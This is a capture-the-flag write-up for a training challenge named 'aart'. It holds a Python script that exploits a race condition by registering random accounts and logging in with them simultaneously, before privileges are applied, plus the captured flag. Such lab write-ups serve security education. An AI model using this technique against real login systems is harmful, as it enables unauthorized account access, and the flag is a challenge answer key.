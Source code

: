 # aart ![c](https://img.shields.io/badge/solved-success)
### Analysis
We can try to login before the privileges are inserted, exploiting the race condition.
### Exploit
```python
import requests
import string
import random
import sys
import threading
import time

EP = "http://aart.training.jinblack.it"

def rand_string(N=10):
	return ''.join(random.choices(string.ascii_uppercase + string.digits, k=N))

def register(u,p):
	url = "%s/register.php" % EP
	data = {"username":u, "password": p}
	r = requests.post(url, data = data)
	print(r)
	if "SUCCESS!" in r.text:
		return True
	return False

def login(u, p):
	url = "%s/login.php" % EP
	data = {"username":u, "password": p}
	r = requests.post(url, data = data)
	print(r)

	if "flag{" in r.text:
		print(r.text)
		sys.exit(0)



while True:
	u = rand_string()
	p = rand_string()

	r = threading.Thread(target=register, args=(u, p))
	r.start()

	l = threading.Thread(target=login, args=(u, p))
	l.start()

	time.sleep(0.1)



import IPython
IPython.embed()
```

**flag{i_guess_you_were_fast_enough!}**
